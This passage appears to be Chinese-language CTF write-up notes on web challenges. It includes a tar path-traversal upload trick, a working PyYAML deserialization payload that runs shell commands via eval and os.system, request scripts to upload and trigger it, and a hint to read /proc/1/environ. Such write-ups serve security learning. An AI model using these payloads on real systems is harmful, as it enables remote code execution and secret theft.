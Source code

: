 tags:: [[CTFWEB/Python/YAML]], [[CTFWEB/Python/Pickle]]

- # ezyaml
	- 思路
		- 利用tar创建config文件夹，然后使用[yaml反序列化]([[CTFWEB/Python/YAML]])完成RCE
	- 利用tar创建config文件夹
		- 原理
			- 在tar文件中创建一个文件路径为`../../config/config.yaml`的文件，这样在python解压时就会自动创建config文件夹
		- 构造
			- 首先创建`aaa/bbb/`文件夹和`config/config.yaml`文件
			- 进入`aaa/bbb/`执行`tar --absolute-names  -cvf config.tar ../../config/config.yaml`得到一个tar文件
			- 然后传上去即可
				- ```python
				  with open("aaa/bbb/config.tar", "rb") as f:
				      r = requests.post(url + "upload", files = {
				          "file": f
				      })
				      # print(r.text)
				  
				  ```
	- Yaml反序列化
		- 写好的waf函数并没有使用
		- ```python
		  content = """
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('{}')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  """.format(
		      "sleep 2"
		  )
		  
		  r = requests.post(url + "upload", files = {
		      "file": ("data.yaml", content)
		  })
		  print(r.text)
		  
		  r = requests.get(url + "src", params = {
		      "username": "../uploads/data"
		  })
		  print(r.text)
		  
		  ```
- # ArkNights
	- 读`/proc/1/environ`
- # Serpent
	- 看到cookie中有secret，尝试伪造后得到`/ppppppppppick1e`
	- 访问看到headers里中的hint, 拿到部分源码
		- ```python
		  @app.route('/src0de')
		  def src0de():
		      f = open(__file__, 'r')
		      rsp = f.read()
		      f.close()
		      return rsp[rsp.index("@app.route('/src0de')"):]
		  